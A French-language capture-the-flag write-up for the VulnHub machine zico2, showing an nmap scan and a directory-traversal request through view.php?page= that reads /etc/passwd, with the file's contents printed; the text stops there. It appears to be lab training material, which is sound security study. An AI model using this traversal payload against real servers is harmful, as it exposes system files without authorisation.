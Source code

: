 # Solution du CTF zico2: 1 de VulnHub

Nitro
-----

[zico2](https://www.vulnhub.com/entry/zico2-1,210/) est un CTF boot-2-root créé par [Rafael Santos](https://twitter.com/rafasantos5) et disponible sur VulnHub.  

Le synopsis est le suivant :  

> Zico is trying to build his website but is having some trouble in choosing what CMS to use. After some tries on a few popular ones, he decided to build his own. Was that a good idea?

Toc toc
-------

Nmap trouve les ports suivants sur la VM :  

```plain
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 68:60:de:c2:2b:c6:16:d8:5b:88:be:e3:cc:a1:25:75 (DSA)
|   2048 50:db:75:ba:11:2f:43:c9:ab:14:40:6d:7f:a1:ee:e3 (RSA)
|_  256 11:5d:55:29:8a:77:d8:08:b4:00:9b:a3:61:93:fe:e5 (ECDSA)
80/tcp    open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Zico's Shop
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          49368/tcp  status
|_  100024  1          50813/udp  status
49368/tcp open  status  1 (RPC #100024)
```

Sur le port 80 se trouve un site quasi vide mais qui présente bien (bootstrap, jquery, fontawesome, ...)  

On note toutefois une URL *http://192.168.1.47/view.php?page=tools.html* qui laisse présager une faille d'inclusion ou juste un directory traversal.  

Monkey see
----------

Après avoir joué un peu avec cette URL on voit que les inclusions distantes et les chemins absolus ne fonctionnent pas mais les chemins relatifs fonctionnent.  

Ainsi l'URL *http://192.168.1.47/view.php?page=../../../../../../../../../../../../../etc/passwd* nous retourne le contenu suivant :  

```plain
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
```